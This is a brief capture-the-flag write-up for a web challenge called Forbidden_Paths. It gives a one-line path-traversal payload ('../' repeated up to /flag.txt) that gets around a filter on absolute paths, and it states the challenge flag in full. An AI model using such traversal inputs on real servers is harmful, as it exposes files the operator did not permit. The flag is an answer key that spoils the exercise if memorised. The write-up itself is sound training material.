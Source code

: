 # Forbidden_Paths
*Can you get the flag? We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?*
*Additional details will be available after launching your challenge instance.*


## Solution
1. Incredibly simple lfi: `../../../../../../../../../../../../flag.txt`


## Flag
**Flag:** `picoCTF{7h3_p47h_70_5ucc355_6db46514}`
